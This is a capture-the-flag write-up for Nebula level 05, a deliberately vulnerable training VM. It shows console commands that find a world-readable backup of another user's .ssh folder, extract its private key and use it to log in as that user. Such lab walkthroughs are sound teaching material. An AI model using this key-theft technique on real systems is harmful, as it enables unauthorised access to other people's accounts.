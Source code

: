 ## Challenge
Check the flag05 home directory. You are looking for weak directory permissions.

## Solution
```console
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     200 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```
`.ssh` looks very interesting, but we have no permissions to access it.

`.backup` looks interesting too, let's have a look:
```console
level05@nebula:/home/flag05$ ls -la .backup
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```
A backup archive, with read perms, copy to our home dir and extract.
```console
level05@nebula:/home/flag05$ cp .backup/backup-19072011.tgz /home/level05/backup.tgz
level05@nebula:/home/flag05$ cd /home/level05
level05@nebula:~$ tar -xvzf backup.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ cd .ssh
level05@nebula:~/.ssh$ ls -l
total 12
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 authorized_keys
-rw------- 1 level05 level05 1675 2011-07-19 02:37 id_rsa
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 id_rsa.pub
```
Someone made a mistake, he backed up the `.ssh` folder and set over permissive access to it.
* `authorized_keys` is a list of public keys permitted to login
* `id_rsa` and `id_rsa.pub` are SSH2 private and public key

We can use `id_rsa` to authenticate through SSH.
```console
level05@nebula:~/.ssh$ ssh -i id_rsa flag05@127.0.0.1

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```
